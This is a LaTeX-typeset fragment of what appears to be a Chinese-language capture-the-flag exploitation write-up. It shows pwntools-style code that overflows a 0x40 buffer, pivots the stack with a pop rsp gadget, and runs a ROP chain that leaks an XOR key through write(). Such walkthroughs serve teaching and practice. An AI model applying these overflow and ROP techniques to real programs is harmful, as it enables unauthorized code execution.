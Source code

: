 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{stage  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*} \DecValTok{64} \OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0xff}\NormalTok{)                        }\CommentTok{\# 塞滿 0x40 buffer + saved rbx=0xff}
\NormalTok{stage }\OperatorTok{+=}\NormalTok{ p64(POP\_RSP) }\OperatorTok{+}\NormalTok{ p64(PIVOT\_TOP) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{) }\OperatorTok{*} \DecValTok{3}   \CommentTok{\# pop rsp; ...; ret}
\CommentTok{\# 注意：上面那 3 個 p64(0) 其實**不會被讀到**！pop rsp 一執行完 rsp 就變成 PIVOT\_TOP，}
\CommentTok{\# 後面 pop r13/r14/r15 讀的是 .bss 裡 [0x40a168]\textasciitilde{}[0x40a178] 的值（那裡本來就是 0）。}
\CommentTok{\# 留著只是為了讓 stage 長度剛好 112（= 0x40 + 8 + 8 + 8*3 + 8），對齊好看。}
\NormalTok{io.send(}\StringTok{b\textquotesingle{}SUBMIT \%d}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}} \OperatorTok{\%} \BuiltInTok{len}\NormalTok{(stage) }\OperatorTok{+}\NormalTok{ stage)}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※提示 溢位 payload 的 offset 對照：\texttt{0x40}
是緩衝區大小、\texttt{0x40} 的位置是 \texttt{saved\ \allowbreak{}rbx}（= 0xff）、
\texttt{0x48} 的位置才是\textbf{被覆蓋的返回位址}（= \texttt{POP\_\allowbreak{}RSP}
的位址）。 \texttt{pop\ \allowbreak{}rsp} 再從 \texttt{{[}S+0x50{]}} 讀出
\texttt{PIVOT\_\allowbreak{}TOP}（\texttt{S} = SUBMIT 當時的 \texttt{rsp}）。
\end{quote}

\paragraph{階段 2：第一次 pivot read（洩漏 XOR
key）}\label{ux968eux6bb5-2ux7b2cux4e00ux6b21-pivot-readux6d29ux6f0f-xor-key}

送到 \texttt{0x40a188}，長度 \texttt{0xff}：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
chain = [ POP_RDI, 1, POP_RSI, KEY, WRITE_RDX_RAX ]   # write(1, 0x405060, rax)
chain += [ POP_RSI, KEY+3, WRITE_RDX_RAX ]            # write(1, 0x405063, 3)
chain += [ POP_RBX, 0xff, SUBMIT_READ ]               # 續接下一段
\end{Verbatim}
\end{document}
